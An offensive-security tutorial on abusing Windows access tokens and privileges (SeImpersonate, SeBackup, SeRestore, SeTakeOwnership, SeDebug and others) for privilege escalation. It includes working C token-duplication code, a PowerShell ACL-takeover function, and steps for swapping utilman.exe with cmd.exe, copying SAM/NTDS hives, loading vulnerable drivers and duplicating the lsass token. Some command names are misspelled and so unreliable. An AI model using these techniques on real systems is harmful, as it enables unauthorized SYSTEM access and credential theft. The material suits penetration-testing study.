

Abuse Tokens
Table of content
Security Tokens
Each users logged on the system get an access token. Every process launched by this user contains a copy of this access token.
This token is used to :
- Identify the user (contains the user
SID) - Identify the user's groups
- Identify the user's privileges
Display token information
Whoami
The token information can be easily displayed using the whoami /all command.
This command display ifnormation about the current user token.
Process Explorer
Process Explorer can be also used to display information about the token contained in a process:

Token types
There are two types of tokens :
- Primary token
- Impersonation token
Primary token
These tokens can only be associated to process. They represent the process security subject.
The token creation and association to a process are privileged operations that need two different set of privileges.
The standard workflow is :
- The authentication service create the token
- The logon service associates it to the user's operating system shell
- Process launched will unherit the token from the parent process
Impersonation token
These tokens allows an application to temporarily impersonate a given user.
There are 4 level of impersonation:
Anonymous: the server get rights of an unidentified userIdentification: the server can access to the user identity but is not granted its rightsImpersonation: the server can act with the same privileges than the impersonated userDelegation: same as impersonation but also applied to remote systems
Impersonation token is only available on threads.
Duplicate token
- Open the process :
OpenProcess - Get an handle to the token :
OpenProcessToken - Duplicate the token :
DuplicateTokenEx - Create a new process with the token :
CreateProcessWithToken
#include <windows.h>
#include <iostream>
int main(int argc, char * argv[]) {
char a;
HANDLE processHandle;
HANDLE tokenHandle = NULL;
HANDLE duplicateTokenHandle = NULL;
STARTUPINFO startupInfo;
PROCESS_INFORMATION processInformation;
// Change with the PID of the process to impersonate
DWORD PID_TO_IMPERSONATE = 3060;
// Change with the executable to launch
wchar_t cmdline[] = L"C:\\shell.cmd";
ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
startupInfo.cb = sizeof(STARTUPINFO);
processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);
CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);
std::cin >> a;
return 0;
}
Interesting privileges
SeImpersonatePrivilege
Any process with this privilege can impersonate any token as long as it can open an handle to it. Thus, it is not possible to create new token through this privilege.
For example, the process can impersonnate a Windows DCOM token to perform NTLMauthentication and launch a SYSTEM process. This path is automatized through the Potatosuite.
SeAssignPrimaryPrivilege
It use the same method than SeImpersonatePrivilege to retrieve a privileged token. Then, this privilege can be leveraged to assign a primary token to a new or suspended process.
Indeed, with the privileged token, it is possible to derivate a primary token through the DuplicateTokenEx Windows API. Then this primary token can be assigned to a new process through the CreateProcessAsUser Windows API.
SeTcbPrivilege
This privilege allows to use KERB_S4U_LOGON to :
- Get an
impersonation tokenfor any user without needing their credentials - Add an arbitrary group to the token
- Set the toeken's integrity level to medium and assign it to the current thread through the
SetThreadToeknWindows API.
SeBackupPrivilege
This privilege grant read access to the whole filesystem. It can be used through the robocopy \bexecutable to copy interesting files such as SAM, SYSTEM hives or NTDS.
Likewise, this privilege can be leveraged to change the permission of the selected path :
# https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1
# https://github.com/giuliano108/SeBackupPrivilege
function Acl-FullControl {param ($user,$path)
$help = @"
.SYNOPSIS
Acl-FullControl
PowerShell Function: Acl-FullControl
Author: Luis Vacas (CyberVaca)
Required dependencies: None
Optional dependencies: None
.DESCRIPTION
.EXAMPLE
Acl-FullControl -user domain\usuario -path c:\users\administrador
Description
-----------
If you have the SeBackupPrivilege privilege. You can change the permissions to the path you select.
"@
if ($user -eq $null -or $path -eq $null) {$help} else {
"[+] Current permissions:"
get-acl $path | fl
"[+] Changing permissions to $path"
$acl = get-acl $path
$aclpermisos = $user,'FullControl','ContainerInherit,ObjectInherit','None','Allow'
$permisoacl = new-object System.Security.AccessControl.FileSystemAccessRule $aclpermisos
$acl.AddAccessRule($permisoacl)
set-acl -Path $path -AclObject $acl
"[+] Acls changed successfully."
get-acl -path $path | fl
}
}
SeRestorePrivilege
This privilege allows write access on the full filesystem. It can be leverage to overwritte services, DLL, or set debuggers.
The exploitation follows these steps:
- Run a powershell with
SeRestorePrivilege - Enable the privilege using
Enable-SeRestorePrivilege - Change the
utilman.exebycmd.exe - Lock the computer and press
WIN+U
SeCreateTokenPrivilege
This privilege is intersting only if it is also possible to impersonate token (whatever the way). For exemple, a user can impersonate the token if it is for the same user and the integrity level is less or equal to the current process integrity level.
Then, it is possible to create an impersonation token and add to it to privileged group SID.
Likewise, it is possible to create an arbitrary token and include Administrator rights through NtCreateToken.
SeLoadDriverPrivilege
This privilege allows to load and unload device drivers. The exploitation path can be found here
In a nutshell the exploitation follows these steps:
- Load a buggy kernel driver such as
szkg64.sys - Exploit the driver vulnerability
Likewise, the privilege can be used to remove security-related driver with the ftlMC ${driverName} builtin command.
SeTakeOwnershipPrivilege
This privilege is similar to SeRestorePrivilege. It allows a process to take ownership of any object by granting write access to the object.
The exploitation follows these steps:
takeown.exe /f "%windir%\system32"icalcs.exe "%windir%\system32" /grant "%username%":F- Change
utilman.exebycmd.exe - Lock the console and press Win+U
SeDebugPrivilege
Allows a process to debug another porcess including reading and writing memory. This privilege is interesting to bypass AV/HIPS.
For example, it can be used to duplicate the lsass.exe token.
Resources
- Table of Windows processes and exploitation path : https://github.com/gtworek/Priv2Admin
- Exploit token for privesc : https://github.com/hatRiot/token-priv/blob/master/abusing_token_eop_1.0.txt